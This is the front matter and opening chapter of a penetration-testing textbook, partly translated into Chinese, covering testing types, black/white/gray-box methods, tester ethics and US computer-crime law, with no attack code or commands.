# 渗透测试基础：可靠安全审计实用指南 (Pearson IT Cybersecurity Curriculum (ITCC))


## 关于作者

**Chuck Easttom** 在 IT 行业工作已超过 25 年，在网络安全领域超过 15 年。他拥有超过 40 项行业认证，并撰写了 24 本其他书籍。他还是一名发明家，拥有 13 项专利。Chuck 是多场安全会议的常客演讲者，包括 Defcon、ISC2 Security Congress、Secure World 等。他还撰写了多篇关于安全相关主题的论文，包括恶意软件开发、渗透测试和黑客技术。他还拥有在网络安全问题上进行咨询和开展渗透测试的实践经验。

## 关于技术审阅者

**Steve Kalman** 既是律师也是专业安全专家。他持有以下来自 (ISC)² 的资质，他曾作为授权讲师为其工作：CISSP、CCFP-US、CSSLP、ISSMP、ISSAP、HCISPP、SSCP。Steve 曾担任超过 20 本 Pearson/Cisco Press 书籍的作者或技术编辑。

**Everett Stiles** 拥有田纳西大学计算机工程硕士学位，目前是 Cisco Systems, Inc. 安全研究部门的高级工程师。

## 献词

*我谨将此书献给多年来我遇到的所有杰出的网络安全专业人士，特别是我有幸教过的那些不可思议的学生，尤其是参加过我 Defcon 工作坊的学生。*

## 致谢

我要感谢 Pearson 的各位使这一切成为可能的人。技术审阅者和编辑们简直顶尖。我与很多出版商和很多编辑/审阅者合作过，从未发现比 Pearson 的更好。

## 我们想听听您的意见！

作为本书的读者，您是我们最重要的批评者和评论者。我们重视您的意见，想知道我们做得对的地方、可以改进的地方、您希望我们出版的领域，以及您愿意分享给我们的任何其他智慧之言。

我们欢迎您的评论。您可以发送电子邮件或写信告诉我们您喜欢或不喜欢本书的内容——以及我们可以如何改进我们的书籍。

*请注意，我们无法帮助您解决与本书主题相关的技术问题。*

当您写信时，请务必包括本书的标题和作者以及您的姓名和电子邮件地址。我们将仔细审阅您的评论并与本书的作者和编辑分享。

电子邮件： feedback@pearsonitcertification.com
邮寄： Pearson IT Certification
收件人： Reader Feedback
800 East 96th Street
Indianapolis, IN 46240 USA

## 读者服务

在 www.pearsonitcertification.com 注册您的 *渗透测试基础* 副本，以便在下载、更新和勘误可用时方便访问。开始注册流程，请访问 www.pearsonitcertification.com/register 并登录或创建账户*。输入产品 ISBN 9780789759375 并点击提交。流程完成后，您将在已注册产品下找到任何可用的奖励内容。

*请务必勾选您希望收到我们的消息以获得本产品未来版本独家折扣的选项。*

## PEARSON IT 网络安全课程 (ITCC)
一目了然

Pearson 的 IT 网络安全课程 (ITCC) 系列是面向两年或四年学位或证书项目的即用型课程解决方案。旨在支持网络安全领域对劳动力发展的重要需求，Pearson ITCC 提供多模式、注重现实世界、动手实践的课程，可作为完整项目使用，也可作为可按需选择的单科课程，以适应您的学生概况、劳动力需求以及学校要求和衔接协议。该项目强调应用型、动手学习，并通过 EC Council、CompTIA 和 Cisco 等行业组织设定的认证进行验证。

## Pearson ITCC 系列的关键特性：

- 每门课程提供两种并行选项：作为标准课程或认证课程教授。遵循特定轨道或挑选适合您学生概况或项目劳动力目标的课程。

|  | 课程 | Track I – 标准教材重点 | Track II – 认证指南重点 |
|---|---|---|---|
| 1 | IT 基础 | CompTIA A+ 完整指南：IT 硬件和软件 | CompTIA A+ |
| 2 | 网络基础 | Networking Essentials | CompTIA Network+ |
| 3 | 网络安全基础 | Computer Security Fundamentals | CompTIA Security+ 或 CCNA Cyber Ops SECFND |
| 4 | 网络安全 Linux 基础 | Linux Essentials for Cybersecurity | CompTIA Linux+/LPIC-1 |
| 5 | 道德黑客与渗透测试 | Penetration Testing Fundamentals | Certified Ethical Hacker (CEH) |
| 6 | 网络防御与对策 | Network Defense & Countermeasures | ** |
| 7 | 网络安全运营（事件响应与数字取证） | A Practical Guide to Computer Forensics Investigations | CompTIA CySA+ 或 CCNA Cyber Ops SECOPS |
| 8 | 开发网络安全程序和政策 | Developing Cybersecurity Programs and Policies | ** |

** 这些课程没有相关的认证轨道

- 灵活的提供方式：创建证书项目或填补学位项目。
- 价格低廉、多模式交付：图书、在线课程和虚拟实验室，外加宝贵的补充视频库。图书还可通过 Pearson 的直接数字访问 (DDA) 项目获取，使课程对学生来说更实惠。
- 对标领先行业标准：可确保符合行业标准和主题覆盖——映射到 NSA/DHS CAE 知识单元，并与 NIST/NICE 框架和 ACM CSEC2017 课程指导保持一致。此外，在适用情况下，Pearson ITCC 课程被认证为 CompTIA 批准优质内容 (CAQC)，并且是唯一的官方 Cisco 授权内容。
- 强大的在线课程和实验室：通过合作伙伴 uCertify 提供的获 CODiE 奖平台交付。24x7 技术支持，易于使用且直观，LMS 集成用于单点登录 (SSO) 和成绩簿集成，多层次形成性练习和评估工具，符合 ADA 标准满足所有无障碍标准，以及每门课程的完成证书徽章。

## 每门课程的形式：

- 1. 图书（印刷版、电子书或 DDA）
- 2. 与 uCertify 合作的在线课程和实验室
- 3. 学生补充材料
- 4. 完整的教师资源
- 5. 可选视频课程库

## 请求演示和/或访问

联系以下任何一个：

- 您的 Pearson 销售代表 https://www.pearson.com/us/contact-us/find-your-rep.html
- 系列编辑：marybeth.ray@pearson.com
- 市场经理：james.manly@pearson.com
- 访问：www.pearson.com/ITCC

遵循一个轨道或从两个轨道中挑选适合您学生概况或项目劳动力目标的课程。


|  | 课程 | Track I – 标准教材重点 | Track II – 认证指南重点 |
|---|---|---|---|
| 1 | IT 基础 | CompTIA A+ 完整指南：IT 硬件和软件 第 7 版 Schmidt 图书：9780789756459 图书 + 课程 + 实验室：9780789757562 课程 + 实验室：9780789757548 | CompTIA A+ 认证指南 学术版 Soper 图书：9780789756534 图书 + 课程 + 实验室：9780789757609 课程 + 实验室：9780789757593 |
| 2 | 网络基础 | Networking Essentials, 第 7 版 Beasley & Nilkaew 图书：9780789758743 图书 + 课程 + 实验室：9780789759870 课程 + 实验室：9780789758729 | CompTIA Network+ N10-007 认证指南 豪华版 Sequeira & Taylor 图书：9780789759825 图书 + 课程 + 实验室：9780789759856 课程 + 实验室：9780789759849 |
| 3 | 网络安全基础 | Computer Security Fundamentals, 第 3 版 Easttom 图书：9780789757463 图书 + 课程 + 实验室：9780789759566 课程 + 实验室：9780789759559 | CompTIA Security+ SY0-501 认证指南 学术版 第 2 版 Prowse 图书：9780789759122 图书 + 课程 + 实验室：9780789759153 课程 + 实验室：9780789759139 或 CCNA Cyber Ops SECFND #210-250 官方认证指南 / Santos, Muniz, & De Crescenzo 图书：9781587147029 图书 + 课程 + 实验室：9780789760050 课程 + 实验室：9780789760043 |
| 4 | 网络安全 Linux 基础 | Linux Essentials for Cybersecurity Rothwell & Pheils 图书：9780789759351 图书+课程+实验室：9780789759368 课程 + 实验室：9780789759344 | CompTIA Linux+ LPIC-1 认证指南 Brunson & Walberg 图书：9780789754554 图书 + 课程 + 实验室：9780789757975 课程 + 实验室：9780789758453 |
| 5 | 道德黑客与渗透测试 | Penetration Testing Fundamentals Easttom 图书：9780789759375 图书 + 课程 + 实验室：9780789759610 课程 + 实验室：9780789759627 | Certified Ethical Hacker (CEH) Version 9 认证指南 第 2 版 Gregg 图书：9780789756916 图书 + 课程 + 实验室：9780789756930 课程 + 实验室：9780789756923 |
| 6 | 网络防御与对策 | Network Defense and Countermeasures, 第 3 版 / Easttom 图书：9780789759962 图书 + 课程 + 实验室：9780789759993 课程 + 实验室：9780789759986 | N/A |
| 7 | 网络安全运营（事件响应与数字取证） | A Practical Guide to Computer Forensics Investigations / Hayes 图书：9780789741158 图书 + 课程 + 实验室：9780134998688 课程 + 实验室：9780789759719 | CompTIA Cybersecurity Analyst (CySA+) 认证指南 / MacMillan 图书：9780789756954 图书 + 课程 + 实验室：9780789760029 课程 + 实验室：9780789760012 或 CCNA Cyber Ops SECOPS #210-255 官方认证指南 / Santos & Muniz 图书：9781587147036 图书 + 课程 + 实验室：9781587147104 课程 + 实验室：9781587147098 |
| 8 | 开发网络安全程序和政策 | Developing Cybersecurity Programs and Policies / Santos 图书：9780789759405 图书 + 课程：9780789759436 课程：9780134858685 | N/A |


## 引言

本书是对渗透测试职业的概述。它包括应遵循的标准、具体的黑客技术，甚至如何进行渗透测试和撰写报告。它不仅仅是另一本黑客书籍，而是一本面向专业渗透测试人员的书籍。它包含大量动手练习，以确保你具备进行专业渗透测试所需的技能。

## 本书适合哪些读者？

本书专为专业渗透测试人员设计，无论是新手还是经验丰富的专业人士。新手将获得对该领域非常详尽的介绍。经验丰富的专业人士将填补他们知识中的空白，最可能是在标准和方法论方面。本书专为渗透测试课程的教材而设计，因此非常适合大学课程或行业培训。

# Chapter 1

### Introduction to Penetration Testing

### Chapter Objectives

After reading this chapter and completing the exercises, you will be able to do the following:

- 理解什么是渗透测试
- 理解渗透测试方法论
- 理解各种渗透测试方法
- 对渗透测试的伦理有深入的理解
- 理解与渗透测试相关的法律问题

Computer and network security are perhaps the most talked-about topics in our modern era. As computing devices continue to permeate our lives, the security of such devices and networks is a growing concern. How to effectively test security is also a clearly important topic. One way to test network security is to conduct a penetration test. Penetration testing is the process of actually using the techniques that might be used by a malicious attacker, but rather than attempt to compromise the target system, these techniques are utilized to test the security of the target system.

You probably hear of some sort of breach of some system very frequently. Certainly, breaches are occurring every day, even if you are not diligently following such news. There are a variety of approaches to network and computer security. Some focus on appropriate security policies and procedures. Others focus on the devices that are used as countermeasures to attacks. Still others focus on secure programming as a means to ameliorate the growing tidal wave of cyber attacks. Each of those security perspectives has merit and should be part of any organization’s security strategy.

All the security measures one can implement are simply not reliable if they have not been adequately tested. One of the most effective methods for rigorously testing any system or device is to actually apply the very same techniques that attackers would apply. Only then can you be truly confident in your system’s security. This book is about learning to conduct effective, systematic penetration tests.

### What Is Penetration Testing?

You have already seen that penetration testing involves utilizing actual attack techniques; however, penetration testing is not the only form of security testing. Therefore, it is important to differentiate penetration testing from other forms of testing. As explained in the sections that follow, there are three primary methods for testing a network’s security:

- Audits
- Vulnerability scans
- Penetration testing

### Audits

An audit is usually a check of documentation. This means reviewing incident response plans, disaster recovery plans, and security policies. It also will involve checking past incident response reports to ensure compliance with the established plans and policies. In fact, this is the key to an audit: an audit is a check for compliance.

Audits can sometimes also involve a review of system logs. This might include firewall logs, intrusion detection system logs, or any other system logs that might provide insight into compliance with security policies. The primary focus of an audit is to evaluate if the target network complies with the appropriate policies, regulations, and, in some cases, laws that are applicable to that organization.

Audits are a valuable aspect of network security. But they can also be viewed as the opposite end of the spectrum from penetration testing. An audit is a rather passive process. No systems are actually affected, or perhaps even interacted with. An audit is an historical process, in that you are checking to see what has happened up to the time of the audit. Have policies been adhered to? Are applicable laws and standards being conformed to? These are all passive and historical questions. As you will see in this and subsequent chapters, a penetration test is checking what is occurring this very moment, and it is quite dynamic.

### Vulnerability Scans

The purpose of a vulnerability scan is to detect known vulnerabilities in a target network or system. The first issue is to define what a known vulnerability is. A vulnerability is a flaw in any system that might allow security to be breached.

When a vulnerability in any computer system is confirmed, it is assigned a Common Vulnerabilities and Exposure number, also commonly called a CVE number. (Mitre, 2016, 《通用漏洞和暴露：信息安全漏洞命名标准》。检索自 https://cve.mitre.org.)

The Mitre Corporation describes the CVE system in this manner:

> “通用漏洞和暴露（CVE）是公开已知网络安全漏洞的通用标识符列表。CVE 标识符或‘CVE ID’的使用由世界各地的 CVE 编号机构（CNA）分配，确保各方在讨论或共享有关特定软件或固件漏洞的信息时具有信心，提供工具评估的基准，并实现网络安全自动化的数据交换。”

Vulnerability scans are related to penetration tests, but they are not, in and of themselves, penetration tests. This may be one of the most common misconceptions in cyber security. I personally often begin my penetration testing process with one or more vulnerability scans. However, these are just to aid in selecting targets for the penetration test. They are not themselves the penetration test.

A vulnerability scan is, however, a critical part of security testing. And, as you will see in later chapters, a vulnerability scan can be mostly an automated process. Therefore, it is definitely recommended that any network be subjected to a vulnerability scan at regularly scheduled intervals.

### Penetration Tests

As was previously mentioned, a penetration test is the utilization of actual hacking techniques in order to test the security of a target system; however, penetration testing and hacking are not synonymous.

Let us begin by defining hacking. Contrary to what you may have gleaned from media portrayals, hacking is not inherently criminal. Hacking is a process of attempting to understand a system by finding and exploiting flaws in that system. Of course, those techniques can be used for criminal activities, but the majority of the hacking community are not criminals and do not violate the law. They are researchers trying to understand systems. In many cases, that research is informal, individual, and outside of any academic setting, but it is still research. Put more succinctly, hacking is about learning.

This brings us to what penetration testing is. Penetration testing is a formal process, and it should involve standard project management methodologies. The goal of penetration testing is to attempt to exploit flaws in a target system. In essence, you attempt to penetrate the system, thus the name.

How does penetration testing differ from hacking? The first, and most obvious, difference is the approach. Hacking is an ad hoc, unstructured process. The hackers are simply satisfying their own intellectual curiosity. This means that when a hacker is hacking a system, he or she simply indulges their curiosity and explores whatever nuances of the system are of interest. Penetration testers have a goal: testing system security. For a penetration tester, idle curiosity is a luxury. There are specific testing goals that must be reached.

The second difference between hacking and penetration testing is the scope. A hacker might focus on only a single aspect of a system. The penetration tester is focusing on a scope that has been determined in advance.


第三点区别是合法性。如我前面所述，黑客行为不一定是非法的。并且有许多黑客都是守法的公民。然而，确实有些黑客从事犯罪活动。渗透测试人员绝不会参与网络犯罪。渗透测试人员始终拥有系统所有者的许可。事实上，正如我们在本章后面将讨论的那样，干净的犯罪记录和无懈可击的职业道德是渗透测试人员的必备素质。

## 混合测试

大型组织会分别进行审计、漏洞扫描和渗透测试。有时这些测试甚至由不同的团队执行；然而，对于小型组织而言，这种方法可能并不具有成本效益。如我前面所述，我通常会先进行几次漏洞扫描再开始渗透测试。在混合测试中，首先扩展最初的漏洞扫描，并将该扫描的报告纳入最终的渗透测试报告中。

也可能有用在测试前先简要回顾政策合规性和过往事件报告。这些步骤的最终成果是获得一项包含漏洞评估和简要审计的渗透测试。这对于小型组织来说通常是一种具有成本效益的解决方案。

## 术语

在继续深入之前，了解黑客和渗透测试社区使用的基本术语非常重要。其中一些术语使用非常广泛，你可能以前就听说过。其他术语则可能不太常见，甚至对你来说是新的。

- **临时测试：** 没有系统方法或流程的测试。希望本书能引导你远离这种做法。
- **黑帽黑客：** 违反法律的黑客。该术语与 cracker 同义，但术语 *黑帽黑客* 更为常见。与某些媒体的描绘相反，黑帽并不一定技术更精湛。有人可以违法却仅具备最基本的技能。
- **Cracker：** 入侵系统以进行恶意、非法或有害行为的人。与黑帽黑客同义。
- **道德黑客：** 为合法和道德目的使用黑客技术的人。
- **足迹收集：** 扫描目标以了解该目标。
- **灰帽黑客：** 通常遵守法律但在某些情况下会越界进入黑帽黑客行为的黑客。
- **黑客：** 通过逆向工程或探测系统来详细研究系统以了解系统的人。这是一个重要的定义。黑客不一定是罪犯。一个人可以是黑客而从不违法，也不做任何不道德的事情。
- **脚本小子：** 指自称技术精湛却技术不佳的人的俚语。有些人下载一两个工具，学会使用后就自认为自己是伟大的黑客，实际上并非如此。
- **白帽黑客：** 不违法黑客，常与道德黑客同义。本质上这是以合法和道德的方式使用黑客技能的人。

这些是基本术语，随着我们的进展，你还会看到其他术语被引入。另一个必须与术语一起解决的问题是黑客文化。再次强调，虽然渗透测试和黑客行为密切相关，但它们并不是同一回事。这可能会让你疑惑为什么需要关心黑客文化。事实是，你可以从黑客那里学到很多。因此，了解黑客文化非常有用。

黑客文化通常是探索性的。是的，黑客社区中有些人犯下罪行，但这并非全部，甚至不是大多数。事实上，并不存在一个有组织的、统一的“黑客社区”。该社区极其多样且形态不定。唯一将它联系在一起使其成为一个社区的东西是对知识的渴望。而这正是黑客世界的关键要素。知识为王。在黑客社区中，学位和认证几乎不算什么；你能证明自己知道什么、能做什么才重要。如果你选择参加像 DEF CON 这样的大型黑客大会，这一点就很关键。与会者只关心学习。而且在演讲者和演示者方面，他们可以是非常严厉的批评者。他们期望所有演讲者和演示者提供新颖且实用的知识。

黑客文化的这一方面正是你必须与之保持联系如此关键的原因。这是一个可以学习东西的地方，有些东西并不总是发表在书籍和期刊上。然而，我要重申，黑客行为和渗透测试并不是同一回事。但渗透测试确实需要了解黑客技术。因此，了解尽可能多的多样化黑客技术至关重要（我们将在本书后面探索其中许多技术）。

虽然我已经强调过（并且会继续强调）黑客行为和渗透测试是分离但相关的活动，但专业渗透测试人员应从黑客社区汲取那种对学习的热爱。渗透测试、漏洞以及系统安全总体上都在不断变化。如果你今天真的知道渗透测试的一切，那些知识就会开始过时，并且在 24 个月内就需要新的知识。有些人觉得这个职业的这一方面相当令人望而生畏。我觉得它令人兴奋。作为一名黑客或专业的渗透测试人员，你正处于终身不断学习的旅程中。唯一不变的是，没有人（甚至不是本文作者）永远知道得足够多。而那种渴望了解更多的饥渴正是黑客社区的决定性特征。

## 方法论

方法论是区分渗透测试与黑客行为的关键要素之一。你采用什么方法进行渗透测试？我们首先会考察各种通用方法，然后再深入探讨更具体的方法论。方法论与渗透测试标准是分开的，我们将在第 2 章“标准”中介绍标准。

### 测试性质

渗透测试有三大类。通常称为黑盒、白盒和灰盒。这些称谓描述了在测试前向渗透测试人员提供的信息量。

### 黑盒

黑盒测试要求渗透测试人员尽可能少地了解目标网络的信息，也许只有组织的名称和其网关路由器的 URL 或 IP 地址。此类测试的目标是模拟外部攻击者试图入侵网络。显然，黑盒测试必须由外部人员执行，因为组织内部任何 IT 部门的成员都会对组织网络有所了解。

与任何测试方法一样，黑盒测试也有利有弊。一个好处是它完全模拟了外部攻击。第二个好处是，你的渗透测试人员的技能会立刻显现。如果他们技术不佳，可能难以对你的网络进行任何成功的渗透。

这种方法最显著的缺点是它总是更昂贵。进行黑盒测试需要花费大量时间，因为渗透测试人员必须首先了解目标网络。此外，他或她必须通过扫描和探测来学习。这都需要时间。

### 白盒

顾名思义，这与黑盒测试完全相反。这种渗透测试方法要求测试人员对目标系统有广泛的了解。这将包括以下内容：

- 工作站和服务器的 IP 地址
- 计算机的操作系统信息
- 交换机和路由器的 IP 地址
- 有关安全设备（如防火墙和入侵检测系统）的信息

白盒测试可以由内部或外部人员执行。这种方法有两个主要优点，首先是它非常适合由内部人员执行，因为他们已经对网络有相当大的了解。第二个优点是这种方法花费的时间更少

时间因此成本更低。测试人员无需进行发现或扫描阶段，并且通常会有特定的目标项目进行测试。主要缺点涉及内部人员的利用，我们将在本章后面讨论。图 1-1 显示了一个非常小的网络，其中包含测试人员在白盒测试中会收到的信息类型。



图 1-1 白盒测试。

正如你所见，IP地址、操作系统和网络布局都已显示。

## 灰盒

这是一个相当笼统的术语，没有具体的边界。它本质上意味着介于黑盒和白盒之间的任何情况。换句话说，测试人员会获得部分网络信息，但不是全部信息。从实际操作来看，这通常是最容易启动的。渗透测试人员会获得 readily 可用的系统信息，而无需对所有信息进行详尽的收集。

这种测试方法比黑盒更快，因为需要的发现工作更少；然而，仍会有发现阶段。测试人员需要执行扫描和发现工作。尽管如此，这种发现工作比黑盒测试更少、更快，原因仅仅在于测试人员从一开始就具备一定的知识水平。

与之前图 1-1 中说明的白盒测试披露的信息不同，在灰盒测试中，测试人员会获得一般信息，例如关键服务器的 IP 地址，以及可能正在使用的操作系统，但不会获得网络图，也不会获得网络上所有（甚至大多数）计算机的 IP 地址。

根据测试人员可获得的信息水平，灰盒测试可以由内部或外部测试人员执行。内部测试人员可以执行灰盒测试，因为不太可能有任何内部员工完全了解组织的网络。

在我的渗透测试中，我最常执行灰盒测试。这对客户和我来说似乎都是一个很好的契合。我拥有足够的信息来执行稳健有效的测试，而且成本对客户来说是可以接受的。

## 方法

在第 2 章中，我们将讨论具体的行业标准以及这些标准如何塑造你的渗透测试，并在单次渗透测试中为你提供指导。在本节中，我们不讨论标准，而是讨论渗透测试的概括性方法。

在选择方法时要解决的第一个问题是确定渗透测试背后的驱动动机。这可能看起来是个奇怪的问题，但值得审视。是组织的一般性担忧在推动这次渗透测试？是仅仅为了遵守某个特定标准（如支付卡行业数据安全标准 [PCI DSS]）而进行的？还是测试是对特定事件的回应，无论是该组织发生的事件，还是组织得知并因此产生担忧的事件？

渗透测试的基础将决定测试如何进行。让我们先讨论第一个场景。如果组织只是对网络安全有一般性担忧，那么测试几乎完全由渗透测试人员驱动。这要求渗透测试人员进行一些初步调查，以了解组织所在行业中最常见的泄露类型，以及基于组织规模、知名度和其他因素，组织最有可能遭受哪些攻击。

基于一般性担忧的渗透测试的主要问题是缺乏重点。这可能导致你未能测试实际上最重要的项目。因此，在进行客户未给出重点的渗透测试时，与客户进行对话并确定目标非常重要。

当渗透测试的动机是遵守特定标准，如 PCI DSS（我们将在第 2 章中详细讨论）时，流程就简单得多。你必须仔细审阅相关标准，并确保测试每一项要求；然而，你应始终将标准视为渗透测试的最低水平，而非最高水平。你完全可以比标准要求更彻底地进行测试。

如果渗透测试是针对特定事件进行的，那么目标就很明确。你必须测试与该事件类似的任何攻击。与以标准为重点的测试一样，这只是最低要求。你可能需要测试超出客户关心的事件类别的范围。

这就引出了测试质量的问题。无论测试的动机或使用的方法（黑盒、白盒、灰盒）如何，目标都是高质量、有效的测试。一个担忧是任何人、任何工具都可能犯错。因此，测试质量控制的一个关键要素是使用不同的工具或技术重复关键测试。如果你与团队合作，那么重复测试也应由不同的人执行。如果你是单独的渗透测试人员，那么第二次测试不仅应使用不同的工具/技术，还应在不同的日期进行。如果你使用不同技术在不同日期发现了相同问题，那么这属于错误的可能性就显著降低了。

## 道德问题

道德问题很少在黑客和渗透测试中被涵盖，而当被涵盖时，也只得到非常有限的关注。这很遗憾，因为渗透测试是一个道德行为极其关键的领域。有两个问题使得渗透测试中的伦理成为一个如此关键的话题。

与伦理相关的第一个问题是渗透测试人员将获得的对组织网络的访问权限。渗透测试人员实际上是被要求尝试入侵网络。仅这一点就需要极高的道德水平。除了渗透测试的性质外，事实是，在渗透测试期间，你会看到大量私人信息。如果你成功入侵该组织的网络，这在所难免。

这两个事实都源于渗透测试的本质，要求任何渗透测试人员都具有高度的道德水平。你必须将看到的所有数据视为机密。事实上，我自己的默认立场是，除非明确告知我，否则我看到的一切都是机密的。

关于伦理和渗透测试的第二个问题是诚实对待自己的技能。很容易找到严重夸大自身技能的渗透测试人员。这种夸张有多种原因。首先是计算机安全总体上以及渗透测试特别地

都是热门话题。对计算机安全专业人员的需求很高，坦率地说，这个领域可以赚取相当可观的收入。这导致一些人夸大自己的技能和资质以获得更多报酬。

夸张的第二个原因是计算机安全总体上，以及渗透测试特别地，非常令人兴奋。可以说，它们是整个 IT 行业中最令人兴奋的话题。想一想你在电影或电视剧情中看到黑客情节的次数。你很可能很容易想到许多这样的例子。现在将其与 IT 职业的其他子领域进行对比。例如，我怀疑你很难回忆起数据库管理或大型机编程在电影中扮演核心角色的例子。除了媒体提供的光鲜（但几乎完全不切实际）的黑客和渗透测试形象外，我们还有这些技能集现在已成为国家安全不可或缺的事实。把这些因素放在一起，许多人认为声称比自己实际拥有的更大技能和经验只是“很酷”。

你可能很想屈服于这种夸大一点的欲望，但我强烈建议你不要这样做。短期内，这可能确实会给你带来利润，但从长远来看，它可能对你的职业生涯产生不利影响。道德在任何职业中都很重要，但在这一领域更为关键。如果你想要更多技能，那就努力工作，真正培养这些技能，不要简单地夸大。本章后面我们将讨论你可以提升技能的方法。

媒体的再现可能让你相信组织通常会聘请被定罪的网络罪犯来执行渗透测试。30 年前可能如此，但随着每年的推移，这种情况越来越少。今天有守法的、道德的渗透测试人员，他们接受过正规培训并具备必要的技能（正如你从本书中获得的）。没有必要聘请已经证明缺乏道德的人。因此，任何道德问题都可能影响你的职业机会。你应始终以高标准的道德规范要求自己。

本书不是哲学论著，本作者也不声称在道德伦理方面有任何特殊知识。所以我无法为你提供职业道德的具体路线图。你需要为自己找到；然而，我可以为你提供一些我遵循的一般性道德准则。以下小节将概述这些准则。

### 一切皆保密

有些人会逐字推敲保密协议，寻找可以透露所知内容的细微差别。我建议采取相反的方法。你遇到的每条信息都被视为机密，除非明确告知你并非如此。

安全测试，包括渗透测试，往往会无意中让你接触到目标组织的机密信息。你的客户需要确信你会以最大的谨慎对待这些信息。显然，这种保密不包括掩盖非法行为。但除刑事活动外，你应将所有客户信息保密，即使保密协议中并未明确说明。


## 坚守你的专业领域

我们每个人都有一套技能。希望通过完成本书并勤奋学习，你能够扩展你的技能集。但无论你扩展多少技能，始终都会存在局限。要意识到自己的局限，如果某项任务超出了你的技能范围，就应告知客户你不是该项测试的合适人选。

例如，我在网络安全和渗透测试的各个方面具备一定的能力，但在诸如物理渗透测试（实际尝试进入目标建筑）和社会工程学等领域则完全没有技能。而某些标准实际上要求组织进行物理渗透测试。我总是告诉客户，他们应该为测试的这一部分聘请其他人。我在这方面 simply 不够擅长，很可能无法执行充分的测试。你可能会认为坦诚自己的不足会导致失去客户，但我的经验恰恰相反。许多客户非常感谢我的诚实。

## 弄坏了就得买单

在渗透测试过程中，你会触碰他人的系统——他们的计算机、服务器、设备、网络等。完全有可能造成业务中断。你必须非常小心以避免这种情况。

减少干扰客户业务风险的一种方式是，在客户活动最少的时候进行测试。这对你来说可能相当不方便（例如在星期日凌晨2点进行网站渗透测试），但这是一种保护客户系统的办法。

渗透测试合同应详细说明将执行哪些测试、何时进行以及在何种条件下进行。这有助于明确你的职责。你应采取一切措施将对客户系统的干扰降到最低。对于特别敏感的系统，在实时系统上进行测试可能不合适，而在备份副本上进行测试可能是必要的。

## 法律问题

随着你阅读本书的进展，你将学习各种实操的黑客技术。其目的是让你利用这些技能来测试组织的系统。未经明确许可使用这些技能是犯罪，在许多情况下可能构成多项犯罪。本节将介绍影响黑客行为的几项法律。后续章节将涵盖每位渗透测试人员都应了解的法律。重点主要在美国法律，但也讨论了少数其他国家的法律。

### 计算机欺诈和滥用法 (CFAA)：18 U.S. Code § 1030

这项法律或许是计算机犯罪法律中最基础的法律之一，任何对计算机犯罪领域感兴趣的人都应仔细研究。之所以认为该立法具有关键意义，主要是因为它是首部旨在提供一定保护以对抗计算机犯罪的重大联邦立法。在该立法之前，法院在起诉计算机犯罪时依赖普通法定义以及针对传统非计算机犯罪的立法改编。

在20世纪70年代和80年代初，计算机犯罪的频率和严重性不断增加。为应对这一日益严重的问题，《1984年综合犯罪控制法》被修订，加入了专门针对未经授权访问和使用计算机及计算机网络的规定。这些规定将未经授权访问计算机中的机密信息定为重罪。它们还将未经授权访问计算机系统中的财务记录定为轻罪。

然而，这些修正案本身被认为是不够的。因此，在1985年期间，众议院和参议院都就潜在的计算机犯罪法案举行了听证会。这些听证会最终促成了《计算机欺诈和滥用法》(CFAA)的出台，该法于1986年由国会通过，修订了18 USC § 1030。该法的最初目标是为属于以下类别之一的计算机和计算机系统提供法律保护：

- 受某联邦实体直接控制
- 属于金融机构的一部分
- 涉及州际或外国商业

正如你所见，这项法律旨在保护属于联邦管辖范围的计算机系统。该法明确将若干活动定为刑事犯罪。首要的是未经授权访问计算机以获取以下任何一种类型的信息：

- 国家安全信息
- 财务记录
- 消费者报告机构的信息
- 美国任何部门或机构的信息

### 未经授权访问存储的通信：18 U.S. Code § 2701

该法规的实际措辞如下：

> 违法行为。——除本节(c)款另有规定外，任何人—
> (1) 未经授权故意访问提供电子通信服务的设施；或
> (2) 故意超出访问该设施的授权；并且由此获取、更改或阻止对在该系统中以电子存储形式存在的有线或电子通信的授权访问，应按本节(b)款的规定予以惩罚。

这两个要素都与黑客技术和渗透测试相关。注意第2条，“故意超出访问授权”。即使你获得了授权，超出你的授权范围不仅不道德，还可能构成联邦犯罪。需要指出的是，初犯可判处最高5年监禁。再次犯罪可能面临最高10年监禁。

### 身份盗窃执法和赔偿法

该法实际上是1984年《计算机欺诈和滥用法》的延伸。它是在身份盗窃威胁日益增长以及现有法律被认为不足的情况下制定的。其最重要的规定之一是允许对不涉及州际或外国通信的计算机欺诈行为进行起诉。这意味着完全在单一州内发生的纯国内事件现在可在联邦法律下被起诉。除此重要规定外，该法还将网络勒索的定义扩展到包括威胁破坏计算机系统或窃取数据的行为。

该立法的另一个重要方面是扩大了身份盗窃法律的适用范围，使其涵盖组织。此前，只有自然人才能被法律认定为身份盗窃的受害者。根据该法，组织也可以被法律认定为身份盗窃和欺诈的受害者。该法律还将共谋实施计算机欺诈定为刑事犯罪。

### 与访问设备有关的欺诈和其他相关活动：18 U.S. Code § 1029

